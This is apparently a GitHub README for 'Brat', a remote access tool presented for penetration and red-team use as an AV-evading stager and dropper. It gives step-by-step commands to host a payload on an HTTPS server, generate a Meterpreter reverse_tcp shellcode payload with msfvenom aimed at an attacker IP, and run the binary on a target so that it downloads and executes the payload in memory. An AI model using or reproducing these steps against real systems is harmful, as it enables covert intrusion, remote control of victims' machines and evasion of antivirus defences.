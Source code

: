 ##Brat

A remote access tool for penetration/red team tests. Hosts no malicious code so is not flagged by AV. Useful for physical compromise of a host, as an SE payload, or as an initial stager/dropper.

### Installing

Pre-compiled windows binaries are available in /bin. To build from source you will need Curl and its required libraries. The provided binaries are compiled against the full Curl library available for Windows here https://curl.haxx.se/windows/. Due to this, they are larger than necessary.

Compile scripts are provided to use a starting point.

## Usage

The tool, once executed, makes an HTTPS GET request to a provided web server. The web server hosts the payload you wish to run. The binary loads this payload into memory and then executes it (NX is disabled on the binary). 

Any web server running HTTPS will suffice. A simple HTTPs web server using python is provided in /web-server. You will need to generate a certificate: 

```openssl req -new -x509 -keyout yourpemfile.pem -out yourpemfile.pem -days 365 -nodes ```

In /web-server/html generate your desired payload:
```msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=4444 -f raw > payload.txt```

Start the web server:

```python3  web-server/web.py```

Configure necessary handler/listener for the payload.

Then execute the binary on the target machine. The binary takes two command line options. The first being the webserver/payload and the second 0 or 1. 0 to disable TLS certificate verification and 1 (or any non-zero number) to enable: 

```./a.exe https://your-web-server/payload.txt 0```

## TODO

Build binaries against custom Curl

There is a version which does not use Curl so it is much smaller, only utilizes OpenSSL. Will upload that too.

